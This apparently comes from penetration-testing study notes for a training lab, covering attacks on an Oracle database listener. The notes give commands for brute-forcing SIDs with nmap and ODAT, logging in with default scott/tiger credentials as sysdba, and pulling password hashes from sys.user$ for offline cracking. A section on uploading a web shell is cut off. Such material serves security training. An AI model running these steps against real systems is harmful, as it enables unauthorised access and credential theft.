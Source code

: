 The SIDs are an essential part of the connection process, as it identifies the specific instance of the database the client wants to connect to. If the client specifies an incorrect SID, the connection 
attempt will fail. Database administrators can use the SID to monitor and manage the individual instances of a database. For example, they can start, stop, or restart an instance, adjust its memory allocation or other configuration parameters, and monitor its performance using tools like Oracle Enterprise Manager.

There are various ways to enumerate, or better said, guess SIDs. Therefore we can use tools like `nmap`, `hydra`, `odat`, and others.

### **Nmap - SID Bruteforcing**

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

### **ODAT**

```bash
./odat.py all -s 10.129.204.235
```

### **SQLplus - Log In**

```bash
sqlplus scott/tiger@10.129.204.235/XE
sqlplus scott/tiger@10.129.204.235/XE as sysdba
```

https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985

### sqlplus after login

```bash
select table_name from all_tables;
select * from user_role_privs;
```

### Password hashes

we can not add new users or make any modifications. From this point, we could retrieve the password hashes from the `sys.user$` and try to crack them offline. The query for this would look like the following:

```bash
 select name, password from sys.user$;
```

### Upload a webshell

Another option is to upload a web shell to the target. However, this 
requires the server to run a web server, and we need to know the exact 
location of the root directory for the webserver. Nevertheless, if we 
know what type of system we are dealing with, we can try the default 
paths, which are:
